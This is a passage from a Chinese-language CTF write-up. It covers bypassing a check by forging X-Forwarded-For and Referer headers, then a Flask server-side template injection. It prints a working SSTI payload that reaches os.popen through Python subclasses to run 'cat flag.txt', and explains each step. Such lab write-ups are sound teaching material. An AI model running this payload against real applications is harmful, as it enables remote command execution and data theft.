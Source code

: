 在 HTTP 包中添加 X-Forwarded-For:1.1.1.1 后用 Reapter 发包。X-Forwarded-For 是一个 HTTP 扩展头部，用来表示 HTTP 请求端真实 IP。这里多一嘴，并不是改了这个东西，就真的识别不出来真实 IP 了

![0T7Qjx.png](https://s1.ax1x.com/2020/10/15/0T7Qjx.png)

然后发现告诉我们要求 Referer 为 www.doyouhaveagirlfriend.com

于是在 HTTP 包中添加 Referer:www.doyouhaveagirlfriend.com 后用 Reapter 发包，flag到手

![0T7rb8.png](https://s1.ax1x.com/2020/10/15/0T7rb8.png)

#### flag

```
flag{sometimes_can_fake_sometimes_cannot}
```



### EasyFLASK

> 不只有 flask

看页面描述让 POST 一个 name 进去，先试试呗

![07C8Nn.png](https://s1.ax1x.com/2020/10/15/07C8Nn.png)

可以看出传入什么，就会回显什么，同时根据题目 flask 的提示，猜测是 ssti ，后台可能存在类似下面的代码

```
render_template_string(name)
```

传 {{2*2}} ，回显 4，可以确认存在 ssti 

![07CIUA.png](https://s1.ax1x.com/2020/10/15/07CIUA.png)

这里我先给出最终的 payload ，然后再一节一节的分析，毕竟截图传图床很麻烦的

```
name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat flag.txt').read()}}
```

![07PM26.png](https://s1.ax1x.com/2020/10/15/07PM26.png)

```
# 获得一个字符串实例
""

# 获得字符串的type实例
"".__class__

# 获得其基类，当然你也可以用__mro__获得其父类
"".__class__.__bases__

# 获得基类中的object类
"".__class__.__bases__[0] 

# 使用__subclasses__()方法，获得object类的子类
"".__class__.__bases__[0] .__subclasses__()

# 获得第132个子类，<class 'os._wrap_close'>，当然还有更多的子类可以用，可以自己写一个程序来找，至于找索引的问题应该不需要我讲吧
"".__class__.__bases__[0] .__subclasses__()[132]

# 对os类进行init初始化，使用globals来获取所有的方法、变量、参数
"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__

# function popen读取文件
"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat flag').read()
```